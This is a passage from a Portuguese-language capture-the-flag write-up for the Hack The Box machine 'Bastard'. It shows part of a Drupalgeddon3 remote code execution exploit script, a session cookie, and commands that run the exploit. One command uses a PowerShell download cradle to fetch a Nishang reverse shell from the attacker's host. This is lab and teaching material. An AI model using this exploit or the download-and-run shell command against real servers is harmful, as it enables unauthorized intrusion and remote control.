 ```
  csrf = re.search(r'>\n<input type="hidden" name="form_token" value="([^"]+)" />', r.text )
  if csrf:
    data = {'form_id':'node_delete_confirm', '_triggering_element_name':'form_id','form_token':csrf.group(1)}
    r = requests.post(host+'/?q=node/'+node+'/delete&destination=node?q[%2523post_render][]=passthru%26q[%2523type]=markup%26q[%2523markup]='+command, data=data, headers=session)
    formid = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
    if formid:
        post_params = {'form_build_id':formid.group(1)}
        r = requests.post(host+'/?q=file/ajax/actions/cancel/%23options/path/'+formid.group(1), data=post_params, headers=session)
        print(r.text.split('[', 1)[0])
except:
  print('\n[Usage]\npython drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]\n\n[Example]\npython drupalgeddon3.py http://target/drupal/ "SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0" 6 "uname -a"\n')
```

Bom o cookie nós já adicionamos com a extensão do firefox anteriormente, agora só devemo utilizar ele

`SESSd873f26fc11f2b7e6e4aa0f6fce59913=APFIFW0iHjaJiX0aELCdH7m9Xl9jei9hlDV6e0Pp7uE`

Mas antes disso devemos verificar quais NODES estão disponíveis pra gente usar para exploração, uma vez que ele pede que possamos escrever nos nodes

Clicamos em `Content` e `Find Content`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_dp33.png)

Agora clicamos no `REST` e ele nos remete ao link `http://10.10.10.9/node/1`, ou seja, temos o NODE 1 onde podemos escrever nele e fazer o que bem entendermos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_dp34.png)

Então executamos com o node e conseguimos RCE na máquina novamente

> python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=APFIFW0iHjaJiX0aELCdH7m9Xl9jei9hlDV6e0Pp7uE" 1 "ipconfig"

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_rce.png)

Pegamos um shell nishang do mesmo modo que foi feito com o Druppalgedon2

> python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=APFIFW0iHjaJiX0aELCdH7m9Xl9jei9hlDV6e0Pp7uE" 1 "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')"

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bastard/B_dp35.png)

# Escalação de Privilégio (1º Método - Sherlock - MS15-051 - Certutil)
